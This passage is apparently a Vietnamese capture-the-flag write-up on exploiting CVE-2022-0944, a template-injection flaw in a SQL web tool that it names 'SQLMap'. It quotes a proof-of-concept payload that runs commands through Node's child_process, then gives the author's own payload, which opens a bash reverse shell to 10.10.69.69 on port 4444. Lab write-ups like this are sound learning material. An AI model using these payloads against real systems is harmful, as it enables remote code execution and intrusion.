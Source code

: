 ![](./sqlmap-1.png)

Áp dụng một số "kỹ năng" research, chúng ta có thể xác định được SQLMap version này dính một [](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb) (`CVE-2022-0944`)

Cùng đọc POC và reproduce lại cùng mình nhé 

```
* Navigate to http://localhost:3000/
* Click on Connections->Add connection
* Choose MySQL as the driver
* Input the following payload into the Database form field

{{ process.mainModule.require('child_process').exec('id>/tmp/pwn') }}
```

Nếu không nhầm, thì chúng ta hoàn toàn có thể chạy cho mình lệnh riêng thông qua exploit kia, cùng khai thác nhé.

## 2.2: Khai thác SQLMap thông qua exploit

Theo như hướng dẫn, mình sẽ vào Connections -> Driver -> MySQL -> Trong phần `Database`, chúng ta sẽ nhập payload 

Trong bài writeup này, mình sẽ dùng payload sau: 
```
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.69.69/4444 0>&1"') }}
```
